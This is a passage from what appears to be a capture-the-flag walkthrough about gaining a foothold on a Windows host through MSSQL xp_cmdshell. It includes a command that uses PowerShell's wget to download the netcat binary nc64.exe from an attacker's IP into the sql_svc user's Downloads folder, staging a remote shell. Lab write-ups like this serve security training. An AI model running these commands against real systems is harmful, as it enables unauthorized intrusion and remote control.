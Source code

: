 - We found the folder where we will place the binary. To do that, we will use the wget alias within PowerShell
( wget is actually just an alias for Invoke-WebRequest ):`xp_cmdshell "powershell -c pwd"` .

- ![can't display an image](images/pwd.png)

- As a user archetype\sql_svc , we don't have enough privileges to upload files in a system directory and
only user Administrator can perform actions with higher privileges.
- We need to change the current working directory somewhere in the home directory of our user where it will be possible to write.
- After a quick enumeration we found that `Downloads` is working perfectly for us to place our binary. In order to do
that, we are going to use the wget tool within PowerShell:

  ```py
  SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{your_ip}/nc64.exe -outfile nc64.exe"
  ```

- ![can't display an image](images/transfer1.png)
